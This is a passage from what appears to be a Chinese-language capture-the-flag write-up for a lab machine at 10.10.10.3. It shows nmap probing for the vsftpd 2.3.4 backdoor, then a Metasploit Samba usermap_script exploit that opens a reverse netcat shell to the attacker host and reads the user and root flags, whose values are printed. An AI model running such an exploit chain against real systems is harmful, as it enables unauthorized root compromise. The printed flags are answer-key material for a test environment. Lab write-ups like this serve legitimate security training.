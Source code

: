 尝试vsftp对应的漏洞

```shell
 $ locate *.nse | grep vsftp
 /usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse
 $ sudo nmap --script ftp-vsftpd-backdoor.nse -p21 10.10.10.3 -T4 -sSV   
 
 Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-16 15:50 HKT
 Nmap scan report for 10.10.10.3
 Host is up (0.24s latency).
 
 PORT   STATE SERVICE VERSION
 21/tcp open ftp     vsftpd 2.3.4
 Service Info: OS: Unix
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 24.22 seconds
```

该漏洞不存在，转向ssh和smb

## 2.ssh

试着爆破一下，没发现可以利用的点。

## 3.SMB

### MSF

```shell
 msf6 &gt; search samba
 msf6 &gt; use exploit/multi/samba/usermap_script
 [*] No payload configured, defaulting to cmd/unix/reverse_netcat
 msf6 exploit(multi/samba/usermap_script) &gt; set rhosts 10.10.10.3
 rhosts =&gt; 10.10.10.3
 msf6 exploit(multi/samba/usermap_script) &gt; set lhost 10.10.14.2
 lhost =&gt; 10.10.14.2
 msf6 exploit(multi/samba/usermap_script) &gt; run
 
 [*] Started reverse TCP handler on 10.10.14.2:4444 
 [*] Command shell session 1 opened (10.10.14.2:4444 -&gt; 10.10.10.3:32875 ) at 2022-03-16 16:04:23 &#43;0800
 
 whoami
 root
 find / -name &#34;user.txt&#34;
 /home/makis/user.txt
 cat /home/makis/user.txt
 83bb7c7fff163562d48ac4ba14316025
 cat /root/root.txt
 848a15387ca22dcf38b1cdc8538223a0
```

